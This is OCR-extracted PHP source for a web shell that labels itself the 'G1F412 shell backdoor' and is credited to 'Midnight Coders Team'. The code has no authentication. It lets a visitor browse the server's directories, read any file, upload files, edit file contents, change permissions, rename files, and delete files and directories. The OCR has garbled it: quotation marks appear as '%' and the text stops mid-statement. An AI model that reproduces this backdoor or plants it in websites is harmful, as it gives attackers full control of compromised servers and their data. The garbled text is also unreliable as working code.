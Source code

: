 | 20201111T12:16:52Z | <?php set_time_limit(0); error_reporting(0);  if(get_magic_quotes_gpc()){ foreach($_POST as $key=>$value){ $_POST[$key] = stripslashes($value);  } } echo %<!DOCTYPE HTML> <HTML> <HEAD> <link href=%% rel=%stylesheet% type=%text/css%> <title>G1F412 shell backdoor</title><link rel=%SHORTCUT ICON%  href=%http://www.hi5style.com/gr/heart.gif%> <style> body{ font-family: %Courier%, cursive; color: #fff; background-color: #000; background-image:url(%https://f.top4top.io/p_17717wd2v0.gif%);align-content: fixed;background-size:130%; } text-shadow:0px 0px 1px #757575; } #content tr:hover{ background-color: #000; text-shadow:0px 0px 10px #fff; } #content .first{ background-color: dark turquoise; } #content .first:hover{ background-color: dark turquoise; text-shadow:0px 0px 1px #757575; } H1{ font-family: %Courier%, cursive; color: #fff; } a{ color: #fff; text-decoration: none; } a:hover{ color: #fff; text-shadow:0px 0px 5px #ffffff; } input,select,textarea{ border: 1px #fff solid; -moz-border-radius: 5px; -webkit-border-radius:5px; border-radius:5px; } </style> </HEAD> <BODY> <br> <center></center> <h1><center><a href=%https://instagram.com/midnight_coders_team?igshid=1bv58zw6nsgjs%>Midnight Coders Team</a></center></h1> <table width=%700% border=%0% cellpadding=%3% cellspacing=%1% align=%center%> <tr><td>Current Path : %; if(isset($_GET[%path%])){ $path = $_GET[%path%]; }else{ $path = getcwd(); } $path = str_replace(%\\%,%/%,$path); $paths = explode(%/%,$path);  foreach($paths as $id=>$pat){ if($pat == %% && $id == 0){ $a = true; echo %<a href=%?path=/%>/</a>%; continue; } if($pat == %%) continue; echo %<a href=%?path=%; for($i=0;$i<=$id;$i++){ echo %$paths[$i]%; if($i != $id) echo %/%; } echo %%>%.$pat.%</a>/%; } echo %</td></tr><tr><td>%; if(isset($_FILES[%file%])){ if(copy($_FILES[%file%][%tmp_name%],$path.%/%.$_FILES[%file%][%name%])){ echo %<font color=%green%>Upload File Success!</font><br />%; }else{ echo %<font color=%red%>Failed for Upload File!</font><br />%; } } echo %<form enctype=%multipart/form-data% method=%POST%> Upload File : <input type=%file% name=%file% /> <input type=%submit% value=%upload% /> </form> </td></tr>%; if(isset($_GET[%filesrc%])){ echo %<tr><td>Current File : %; echo $_GET[%filesrc%]; echo %</tr></td></table><br />%; echo(%<pre>%.htmlspecialchars(file_get_contents($_GET[%filesrc%])).%</pre>%); }elseif(isset($_GET[%option%]) && $_POST[%opt%] != %delete%){ echo %</table><br /><center>%.$_POST[%path%].%<br /><br />%; if($_POST[%opt%] == %chmod%){ if(isset($_POST[%perm%])){ if(chmod($_POST[%path%],$_POST[%perm%])){ echo %<font color=%green%>Change Permission Success~!</font><br />%; }else{ echo %<font color=%red%>Failed for Change Permission !</font><br />%; } } echo %<form method=%POST%> Permission : <input name=%perm% type=%text% size=%4% value=%%.substr(sprintf(%%o%, fileperms($_POST[%path%])), -4).%% /> <input type=%hidden% name=%path% value=%%.$_POST[%path%].%%> <input type=%hidden% name=%opt% value=%chmod%> <input type=%submit% value=%Go% /> </form>%; }elseif($_POST[%opt%] == %rename%){ if(isset($_POST[%newname%])){ if(rename($_POST[%path%],$path.%/%.$_POST[%newname%])){ echo %<font color=%green%>Change Name Success!</font><br />%; }else{ echo %<font color=%red%>Failed for Change Name !</font><br />%; } $_POST[%name%] = $_POST[%newname%]; } echo %<form method=%POST%> New Name : <input name=%newname% type=%text% size=%20% value=%%.$_POST[%name%].%% /> <input type=%hidden% name=%path% value=%%.$_POST[%path%].%%> <input type=%hidden% name=%opt% value=%rename%> <input type=%submit% value=%Go% /> </form>%; }elseif($_POST[%opt%] == %edit%){ if(isset($_POST[%src%])){ $fp = fopen($_POST[%path%],%w%); if(fwrite($fp,$_POST[%src%])){ echo %<font color=%green%>Edit File Success!</font><br />%; }else{ echo %<font color=%red%>Failed for Edit File!</font><br />%; } fclose($fp); } echo %<form method=%POST%> <textarea cols=80 rows=20 name=%src%>%.htmlspecialchars(file_get_contents($_POST[%path%])).%</textarea><br /> <input type=%hidden% name=%path% value=%%.$_POST[%path%].%%> <input type=%hidden% name=%opt% value=%edit%> <input type=%submit% value=%Go% /> </form>%; } echo %</center>%; }else{ echo %</table><br /><center>%; if(isset($_GET[%option%]) && $_POST[%opt%] == %delete%){ if($_POST[%type%] == %dir%){ if(rmdir($_POST[%path%])){ echo %<font color=%green%>Delete Dir Success!</font><br />%; }else{ echo %<font color=%red%>Failed for Delete Dir!</font><br />%; } }elseif($_POST[%type%] == %file%){ if(unlink($_POST[%path%])){ echo %<font color=%green%>Delete File Success!</font><br />%; }else{ echo %<font color=%red%>Failed for Edit File!</font><br />%; } } } echo %</center>%; $scandir = scandir($path); echo %<div id=%content%><table width=%700% border=%0% cellpadding=%3% cellspacing=%1% align=%center%> <tr class=%first%> <td><center>Name</center></td> <td><center>Size</center></td> <td><center>Permissions</center></td> <td><center>Options</center></td> </tr>%;  foreach($scandir as $dir){ if(!is_dir(%$path/$dir%) ,, $dir == %.% ,, $dir == %..%) continue; echo %<tr> <td><a href=\%?path=$path/$dir\%>$dir</a></td> <td><center>--</center></td> <td><center>%; if(is_writable(%$path/$dir%)) echo %<font color=%green%>%; elseif(!is_readable(%$path/$dir%)) echo %<font color=%red%>%; echo perms(%$path/$dir%); if(is_writable(%$path/$dir%) ,, !is_readable(%$path/$dir%)) echo %</font>%;  echo %</center></td> <td><center><form method=\%POST\% action=\%?option&path=$path\%> <select name=\%opt\%> <option value=\%\%></option> <option value=\%delete\%>Delete</option> <option value=\%chmod\%>Chmod</option> <option value=\%rename\%>Rename</option> </select> <input type=\%hidden\% name=\%type\% value=\%dir\%> <input type=\%hidden\% name=\%name\% value=\%$dir\%> <input type=\%hidden\% name=\%path\% value=\%$path/$dir\%> <input type=\%submit\% value=\%>\% /> </form></center></td> </tr>%; } echo
